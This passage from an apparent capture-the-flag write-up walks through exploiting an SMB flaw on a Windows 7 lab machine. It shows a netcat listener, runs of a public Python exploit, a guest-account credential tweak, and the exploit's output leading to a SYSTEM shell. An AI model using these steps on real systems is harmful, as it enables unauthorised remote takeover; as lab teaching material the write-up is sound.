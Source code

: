 Next, we start a netcat listener by executing `nc -lvnp 443`. Then, we launch the exploit by executing `python 42315.py 10.10.10.40`. Note that we use `python` instead of `python3` since this exploit was written in python2 and not python3.  

{% highlight none linenos %}
kali@kali:/tmp/x$ @@python 42315.py 10.10.10.40@@
Target OS: Windows 7 Professional 7601 Service Pack 1
@@@Not found accessible named pipe@@@
Done
kali@kali:/tmp/x$
{% endhighlight %}

As can be seen above, the exploit fails to find a named pipe. We can try to add more named pipes to the script since it has a hard coded list of named pipes to try. Another alternative is to provide the exploit with credentials using the two variables named "USERNAME" and "PASSWORD" which we saw [earlier]({{path}}#USERNAME). Some Windows systems allow SMB access for anonymous users using a guest account with a blank password. As such, we could try to change the value of the `USERNAME` parameter as shown below.

{% highlight none linenos %}
USERNAME = '@@@guest@@@'
PASSWORD = ''
{% endhighlight %}

Once we have specified a username in the exploit, we reexecute it.

{% highlight none linenos %}
kali@kali:/tmp/x$ @@python 42315.py 10.10.10.40@@
Target OS: Windows 7 Professional 7601 Service Pack 1
Using named pipe: samr
Target is 64 bit
Got frag size: 0x10
GROOM_POOL_SIZE: 0x5030
BRIDE_TRANS_SIZE: 0xfa0
CONNECTION: 0xfffffa8001995980
SESSION: 0xfffff8a003d42aa0
FLINK: 0xfffff8a004190088
InParam: 0xfffff8a00418a15c
MID: 0x1e03
success controlling groom transaction
modify trans1 struct for arbitrary read/write
make this SMB session to be SYSTEM
overwriting session security context
Opening SVCManager on 10.10.10.40.....
Creating service OtIh.....
Starting service OtIh.....
The NETBIOS connection with the remote host timed out.
Removing service OtIh.....
ServiceExec Error on: 10.10.10.40
nca_s_proto_error
Done
kali@kali:/tmp/x$ 
{% endhighlight %}

![system](/assets/{{ imgDir }}/system.png)

After a couple of seconds, our listener receives a connection from the target and we obtain a shell as `SYSTEM`!
 
